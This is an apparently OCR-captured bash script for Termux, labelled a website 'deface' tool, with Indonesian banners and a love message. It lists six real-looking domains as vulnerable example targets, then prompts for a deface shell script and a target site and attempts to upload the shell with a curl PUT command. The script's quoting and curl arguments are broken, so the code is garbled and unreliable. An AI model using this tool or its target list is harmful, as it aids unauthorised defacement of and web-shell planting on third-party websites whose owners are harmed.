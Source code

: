 #usr/bin/bash

clear
bi='\033[34;1m' #biru
i='\033[32;1m' #ijo
pur='\033[35;1m' #purple 
cy='\033[36;1m' #cyan
me='\033[31;1m' #merah
pu='\033[37;1m' #putih
ku='\033[33;1m' #kuning

echo $me" ║██  ❤️❤️  ❤️❤️  ██   ██    
echo $me" ║██  ❤️  ❤️  ❤️  ██   ██
echo $me" ║██    ❤️  ❤️    ██   ██
echo $me" ║██      ❤️      ███████
echo $me" 
slep"
echo $pu"  ████  ███    █   █   █   █ 
echo $pu"  ██  ██  ██  █ █   █ █   █ █
echo $pu"  ██      ██  █❤️█   █║   █❤️█
echo $pu"  ██      ██  █  █   █║   █  █
echo $pu"
echo ""
echo ""
echo ""
echo "Script Ini diperbarui Stah ^_^" | lolcat
sleep 1
echo $ku"Pastikan Punya script buat Deface ( shell ) stah ^_^"
echo $i"——————————————————————————————————————————————————————————"
echo $pur"              [•]DARI : IPAN ADITIA
echo $ku"             [•]KEPADA : MAYA LESTARI
echo $i"             [•] PESAN  : AKU SAYANG KAMU
echo $me"      [•]ISI KANDUNGAN : AWOKAWOKAOWK ❤️
echo $i"——————————————————————————————————————————————————————————"
sleep 2
echo ""
echo ""
echo ""
echo $i"              CONTOH WEB VULN STAH ^_^"
echo $pur"         [1]http://scnc.co.za "
echo $pur"         [2]http://handj.co.za"
echo $pur"         [3]http://lwrm.co.za"
echo $pur"         [4]http://mc3qs.com"
echo $pur"         [5]http://mpark.co.za"
echo $pur"         [6]http://8x8.co.za"
echo ""
echo ""
echo " Udah asw jangan banyak - banyak ^_^" | lolcat
echo $pur"Aing Noob stah ^_^"
read -p "Masukkan Script defacenya ( shell )  :" script;
read -p "Masukkan web yg mau di deface        :" web;
echo "SEDANG MENDEFACE STAH ^_^" | lolcat
echo $i"L"$ku"O"$me"A"$pur"D"$cy"I"$ku"N"$i"G"
termux-setup-storage
curl -T /sdcard/$web $script
echo "Berhasil Di Deface ea :v" | lolcat
echo $i"Buka Hasilnya Disini Stah : $web/ $script"

